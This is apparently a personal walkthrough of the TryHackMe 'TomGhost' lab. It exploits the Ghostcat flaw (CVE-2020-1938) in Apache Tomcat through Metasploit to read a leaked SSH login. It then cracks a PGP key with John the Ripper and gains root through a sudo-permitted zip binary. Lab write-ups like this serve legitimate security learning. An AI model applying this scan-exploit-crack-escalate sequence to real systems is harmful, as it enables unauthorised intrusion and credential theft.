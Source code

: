 # TomGhost

IP: 10.10.74.67

Initial nmap scan:
```
└─$ nmap 10.10.74.67                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 16:08 EDT
Nmap scan report for 10.10.74.67
Host is up (0.18s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy

```
Now I'll start another scan to check all ports with `nmap -T4 10.10.74.67 -p-`, and while this is running, take a closer look at what we know so far.
`nmap -sVC -T4 10.10.74.67 -p22,53,8009,8080 -oN nmap-version.txt`

```
Nmap scan report for 10.10.74.67
Host is up (0.17s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigating to :8080 in a browser, it seems that we have a fresh Apache Tomcat server running 9.0.30 which hasn't been fully set up. 
Between `searchsploit` and Google, I came across a vulnerability known as 'Ghostcat', which seems like the right direction being that this room is titled "tomghost".

With my sights focused on CVE-2020-1938, I came across a write-up and exploit on GitHub: https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.py.
This server is running a vulnerable version and listening on port 8009, so I decided to take a final look with Metasploit. 
`msfconsole`
`use auxiliary/admin/http/tomcat_ghostcat`
`set RHOSTS 10.10.74.67`
With these options, we had the following configuration:
```
msf6 auxiliary(admin/http/tomcat_ghostcat) > options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS    10.10.74.67       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                         t/basics/using-metasploit.html
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL

```
Running `check`, it confirms that the instance is vulnerable.
Finally we'll `run` and get the contents of /WEB-INF/web.xml, inside which we find the following output:
```
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```
`skyfuck:8730281lkjlkjdqlksalks` could be a set of credentials, but now I'm having a hard time finding where to input them. 

After some research and poking around in the [Tomcat documentation](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html) for manger portal locations, it turns out these were just SSH credentials!!

In `skyfuck`'s home directory, we have `credential.pgp` and `tryhackme.asc` sitting there. `tryhackme.asc` contains a PGP private key, which I'm not entirely sure what to do with for now.

Looking around more, we find some hidden files including .bash_history:
```
skyfuck@ubuntu:~$ cat .bash_history 
ls
cd ..
ls
cd skyfuck/
ls
exit
cd ..
ls
cd skyfuck/
ls
wget 192.168.32.23/tryhackme.asc
wget 192.168.32.23/credential.pgp
ls
exot
exit
```

Checking with `sudo -l` we don't have sudo privileges.

With some research, after copying the .pgp and .asc files to my local machine, I was able to use `john` to bruteforce the .asc file:
`gpg2john tryhackme.asc > tocrack`
`john tocrack --wordlist=/usr/share/wordlists/rockyou.txt`
`john tocrack --show`
The password is `alexandru`.

Now we're able to use this key to decrypt the .pgp file:
`gpg --import tryhackme.asc`
*enter alexandru as the password*
`gpg --decrypt credential.pgp`
*enter alexandru as the password again*
And now we have `merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j` from the decrypted file.

Authenticating to the server as merlin with our newfound credentials, we find the user flag is in this home directory.

Now looking for privilege escalation possibilities, `sudo -l` reveals that we can run `/usr/bin/zip` as root without a password!

This is an immediate red flag to check gtfobins, and sure enough, we're able to get obtain root from there with a copy/paste. https://gtfobins.github.io/gtfobins/zip/#sudo

Lastly, we find and submit the root flag in /root.

This was a fairly straightforward room, but it was great learning a bit about Tomcat and the Ghostcat vulnerability, as well as cracking PGP encryption with John.